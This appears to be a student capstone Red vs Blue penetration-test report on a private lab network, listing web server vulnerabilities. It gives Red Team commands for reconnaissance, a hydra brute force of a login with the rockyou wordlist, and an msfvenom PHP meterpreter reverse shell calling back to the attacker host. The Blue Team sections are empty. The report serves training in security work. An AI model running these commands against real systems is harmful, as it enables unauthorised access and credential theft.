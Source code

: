 ## Capstone Red vs Blue CySec Report

Author: Min Young Lee

**Table of Contents**

## Preface
This is a cybersecurity project report on a network vulnerability.  There are two parts of this project: the attacker (Red Team) and the victim (Blue Team).  The Red Team is tasked with identifying vulnerabilities in the network and exploiting the found vulnerabilities.  The Blue Team is tasked with detecting malicious activities on the network and mitigating the identified malicious attacks.  

## Network Topology

![](img url)

| Hostname| IP Address | Role on Network |
| ------------------ | ------------------ |------------------ |
|ML-RefVM-684427| 192.168.1.1 | NATSwitch|
|Capstone |192.168.1.105 |Web server|
|Kali |192.168.1.90 |Pen. test system|
|ELK |192.168.1.100| SIEM system|

# Red Team
## Recon
## Vulnerability Assessment 

|Vulnerability| Description| Impact|
| ------------------ | -------- |------------------ |
|Apache Directory Listing CVE-2007-0450|Allows browser traversal to realdirectories on Capstone Apacheweb server|Allowed attackers to reveal the ip address and the secret folder|
|No Failed Login Lockout| No account lockdown when excessive login failures occurred within a short period of time| Brute force attack was possible to gain access to Ryan’s login information |
|Weak Password| The password was available on a common password library such as “rockyou”| The brute force attack was able to identify the login password.|
|Reverse Shell Backdoor CVE-2019-13386| Allows to send a reverse shell payload on a web server while the firewalls do not detect the payload |Attackers gained the remote backdoor access to the Capstone web server|
|Weak Hashed Password |Unsalted hashed information which can be decrypted using various web applications to decode |The hashed information, the CEO login information, was decoded.  |
|Simplistic Username| Usage of the common names or real names as a login ID |By having an access to the directory, the attack was able to identify the login IDs |
|Root Accessibility| The anonymous commands has an access to the resources |The attacker was able to connect to devices|
|Unencrypted Credentials |The stored values of usernames and passwords, both passwords and the hashed passwords, were in a plain text |The attacker was able to gain access to the login IDs and passwords|

## Exploitation(s) 
### Apache Directory Listing CVE-2007-0450
	netdiscover -r 192.168.1.255/16

	nmap -sV 192.168.1.1-105

	nmap -sS -A 192.168.1.105

	wget 192.168.1.105 /meet_our_team/ashton.txt

### No Failed Login Lockout
	hydra -l ashton -P /usr/share/wordlists/rockyou .txt -s 80 -f -vV 192.168.1.105 http-get/company_folders/secret_folder/ -t 60

### Reverse Shell Backdoor CVE-2019-13386
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php

Login to webdav as Ryan to move the payload
Listen to host: 192.168.1.90 & port:4444

	meterpreter> shell
	>find / -name flag.txt 2>/dev/null
	>cat flag.txt

# Blue Team
## Vulnerability Analysis 
## Hardening
# Assessment Summary 
